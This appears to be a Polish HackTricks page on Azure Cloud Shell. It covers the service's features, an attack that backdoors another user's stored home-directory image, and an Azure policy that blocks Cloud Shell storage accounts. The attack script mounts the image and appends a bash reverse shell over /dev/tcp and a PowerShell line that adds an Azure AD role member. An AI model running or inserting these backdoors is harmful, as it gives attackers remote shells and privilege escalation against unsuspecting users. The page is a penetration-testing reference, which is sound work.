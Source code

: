 # Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** to interaktywny, uwierzytelniony terminal dostępny przez przeglądarkę, zaprojektowany do zarządzania zasobami Azure, oferujący elastyczność pracy zarówno z Bash, jak i PowerShell. Działa na tymczasowym hoście na sesję, który wygasa po 20 minutach braku aktywności, zachowując pliki w lokalizacji $HOME przy użyciu 5-GB udostępnienia plików. Cloud Shell można uzyskać z wielu punktów, w tym z portalu Azure, shell.azure.com, dokumentacji Azure CLI i PowerShell, aplikacji mobilnej Azure oraz rozszerzenia Azure Account w Visual Studio Code.

Nie ma przypisanych uprawnień do tej usługi, dlatego nie ma technik eskalacji uprawnień. Nie ma również żadnego rodzaju enumeracji.

### Kluczowe funkcje

- **Wstępnie zainstalowane narzędzia**: Cloud Shell zawiera kompleksowy zestaw wstępnie zainstalowanych narzędzi, takich jak Azure CLI, Azure PowerShell, Terraform, Docker CLI, Ansible, Git oraz edytory tekstu, takie jak vim, nano i emacs. Te narzędzia są gotowe do użycia. Aby wyświetlić zainstalowane pakiety i moduły, możesz użyć "Get-Module -ListAvailable", "tdnf list" i "pip3 list".
- **Dysk Azure (Azure:)**: PowerShell w Azure Cloud Shell zawiera dysk Azure (Azure:), który umożliwia łatwą nawigację po zasobach Azure, takich jak Compute, Network i Storage, przy użyciu poleceń podobnych do systemu plików. Przełącz się na dysk Azure za pomocą cd Azure: i wróć do swojego katalogu domowego za pomocą cd ~. Możesz nadal używać poleceń Azure PowerShell do zarządzania zasobami z dowolnego dysku.
- **Instalacja niestandardowych narzędzi**: Użytkownicy, którzy skonfigurują Cloud Shell z kontem magazynowym, mogą instalować dodatkowe narzędzia, które nie wymagają uprawnień administratora. Ta funkcja pozwala na dalszą personalizację środowiska Cloud Shell, umożliwiając użytkownikom dostosowanie swojego ustawienia do ich specyficznych potrzeb.
- **Trwałość $HOME**: Podczas pierwszego uruchomienia Azure Cloud Shell możesz używać go z lub bez podłączonego konta magazynowego.
- Wybór braku podłączenia magazynu tworzy epizodyczną sesję, w której pliki są usuwane po zakończeniu sesji.
- Aby zachować pliki między sesjami, masz możliwość **zamontowania konta magazynowego**, które automatycznie podłącza się jako `$HOME\clouddrive`, a twój katalog `$HOME` **zapisany jest jako plik .img w udostępnieniu plików.**

### Phishing w Cloud Shell

Jeśli atakujący znajdzie obrazy innych użytkowników w koncie magazynowym, do którego ma dostęp do zapisu i odczytu, będzie mógł pobrać obraz, **dodać do niego backdoora bash i PS** oraz przesłać go z powrotem do konta magazynowego, aby następnym razem, gdy użytkownik uzyska dostęp do powłoki, **polecenia będą automatycznie wykonywane**.

- **Pobierz, dodaj backdoora i przesyłaj obraz:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name>

# Mount image
cd /tmp/phishing_img/.cloudconsole
mkdir /tmp/cloudpoison
sudo mount acc_username.img /tmp/cloudpoison
cd /tmp/cloudpoison
sudo mkdir .config
sudo mkdir .config/PowerShell
sudo touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
sudo chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo "Connect-AzureAD; Add-AzureADDirectoryRoleMember -ObjectId 1246bcfd-42dc-4bb7-a86d-3637ca422b21 -RefObjectId 1D8B2447-8318-41E5-B365-CB7275862F8A" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
cd /tmp

sudo umount /tmp/cloudpoison

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img"
```
- **Następnie, phishinguj użytkownika, aby uzyskać dostęp do https://shell.azure.com/**

### Znajdź i zabroń automatycznym kontom magazynowym Cloud Shell

Konta magazynowe utworzone przez Cloud Shell są oznaczone tagiem **`ms-resource-usage:azure-cloud-shell`**. Możliwe jest utworzenie polityki zasobów Azure, która uniemożliwia tworzenie zasobów z tym tagiem.

Znajdź wszystkie konta magazynowe utworzone przez Cloud Shell według tagów:
```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```
Polityka zabraniająca tworzenia automatycznych kont magazynowych dla przechowywania w chmurze na podstawie tagów:
```json
{
displayName: "Restrict cloud shell storage account creation",
description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
metadata: {
category: "Storage",
version: "1.0.0"
},
mode: "All",
parameters: {
effect: {
type: "String",
metadata: {
displayName: "Effect",
description: "Deny, Audit or Disabled the execution of the Policy"
},
allowedValues: [
"Deny",
"Audit",
"Disabled"
],
defaultValue: "Audit"
}
},
policyRule: {
if: {
allOf: [
{
field: "type",
equals: "Microsoft.Storage/storageAccounts"
},
{
field: "tags['ms-resource-usage']",
equals: "azure-cloud-shell"
}
]
},
then: {
effect: "[parameters('effect')]"
}
}
}
```
## Odniesienia

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)


## Utrzymywanie

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}

